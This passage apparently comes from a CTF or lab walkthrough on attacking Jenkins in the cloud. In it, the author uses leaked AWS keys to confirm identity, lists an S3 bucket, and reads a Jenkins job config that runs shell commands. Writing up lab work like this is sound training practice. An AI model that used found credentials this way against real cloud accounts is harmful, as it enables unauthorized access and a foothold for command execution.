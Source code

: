 ![](exploit-jenkins-in-the-cloud-3.png)

Authenticate using found AWS keys
```
└─$ aws sts get-caller-identity  
{
    "UserId": "AIDAWHEOTHRFWBMKSPV7Z",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/jenkins"
}

```
Let's check the bucket
```
└─$ aws s3 ls jenkins-config-load
                           PRE admin/
2023-07-10 18:19:31       1111 config.xml

```

We see `admin` folder and `config.xml`. We can't access `admin` directory, but we can download config file, which is a job that executes system command.
```
└─$ cat config.xml     
<?xml version='1.1' encoding='UTF-8'?>
<project>
  <actions/>
  <description>test job</description>
  <keepDependencies>false</keepDependencies>
  <properties/>
  <scm class="hudson.scm.NullSCM"/>
  <canRoam>true</canRoam>
  <disabled>false</disabled>
  <blockBuildWhenDownstreamBuilding>false</blockBuildWhenDownstreamBuilding>
  <blockBuildWhenUpstreamBuilding>false</blockBuildWhenUpstreamBuilding>
  <triggers/>
  <concurrentBuild>false</concurrentBuild>
  <builders>
    <hudson.tasks.Shell>
      <command>echo &quot;hello, today is $(date)&quot; &gt; /tmp/jenkins_test</command>
      <configuredLocalRules/>
    </hudson.tasks.Shell>
  </builders>
  <publishers/>
  <buildWrappers>
    <hudson.plugins.timestamper.TimestamperBuildWrapper plugin="timestamper@1.25"/>
    <hudson.plugins.build__timeout.BuildTimeoutWrapper plugin="build-timeout@1.31">
      <strategy class="hudson.plugins.build_timeout.impl.AbsoluteTimeOutStrategy">
        <timeoutMinutes>3</timeoutMinutes>
      </strategy>
      <operationList/>
    </hudson.plugins.build__timeout.BuildTimeoutWrapper>
  </buildWrappers>
</project> 
```
